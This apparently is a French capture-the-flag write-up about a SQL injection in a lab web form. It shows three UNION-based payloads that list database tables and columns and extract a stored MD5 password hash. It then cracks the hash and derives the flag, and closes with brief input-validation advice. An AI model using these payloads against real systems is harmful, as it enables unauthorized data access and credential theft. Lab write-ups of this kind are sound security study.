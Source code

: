 # Vulnérabilité: Injection SQL

## Découverte

En testant le formulaire, nous avons constaté qu'une erreur SQL s'affiche lorsqu'on entre des caractères spéciaux, indiquant que les entrées sont directement insérées dans les requêtes sans validation.

### Exploitation
Nous avons utilisé plusieurs requêtes UNION pour extraire des informations:

1. Identifier les tables:
```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

2. Identifier les colonnes:
```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 --
```

3. Extraction des données sensibles:
```sql
1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --
```

### Résultat
Nous avons obtenu:
- First name: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
- Surname: `5ff9d0165b4f92b14994e5c685cdce28`

Le hash MD5 `5ff9d0165b4f92b14994e5c685cdce28` correspond à `FortyTwo`.
En suivant les instructions, nous avons converti `fortytwo` en minuscules puis appliqué SHA256 pour obtenir le flag.

## Protection
- Implémenter une validation des entrées côté serveur
- Filtrer les caractères spéciaux SQL
